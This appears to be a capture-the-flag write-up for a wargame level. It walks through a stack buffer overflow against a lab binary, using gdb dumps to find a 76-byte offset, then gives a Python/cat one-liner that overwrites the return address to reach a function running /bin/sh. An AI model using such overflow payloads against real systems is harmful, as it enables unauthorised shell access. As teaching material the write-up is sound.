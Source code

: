 We can observe while decompiling the binary that there is a call to `gets` on a buffer of size 76 and a function named `run` with a call to `system("/bin/sh")` located at `0x08048444`.

We could then use a buffer overflow exploit to replace the value of `eip` stored in the stack to execute the `run` function.

## Investigation

First we need to know how many chars we need to write before starting to write over `eip`. And for that we need to know where it is stored in the stack.
We know that `eip` is stored just after `ebp`
```
(gdb) i r ebp
ebp            0xbffff728       0xbffff728
```
at `0xbffff728 + 0x4 = 0xbffff72c`

Now we will need to know where our buffer is in the stack. For that we can give an input of `aaaaaaaaaaaaaaaa` (ASCII for 'a' is 61) and print the stack.
```
(gdb) x/12xw $esp
0xbffff6d0:     0xbffff6e0      0x0000002f      0xbffff72c      0xb7fd0ff4
0xbffff6e0:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff6f0:     0xb7fd1300      0x00000016      0x0804978c      0x080484c1
```
Our buffer start at the address `0xbffff6e0` (0x10 after the start of esp).

If we substract our 2 adresses we get `0xbffff72c - 0xbffff6e0 = 0x4c` or `0d76` so we need to write 76 chars to rewrite the value of `eip` to `0x08048444`.

## Exploit

First we will need to write the address of `run` in little endian `44840408` and add 76 chars before it. In python it should be
```py
print "A"*76 + "\x44\x84\x04\x08"
```
But we will need to have the prompt back to be able to pass command to the shell. For that we will use `cat -`.
Those two combined this will give use
```shell
(cat <(python -c 'print "A" * 76 + "\x44\x84\x04\x08"') -) | ./level1
```
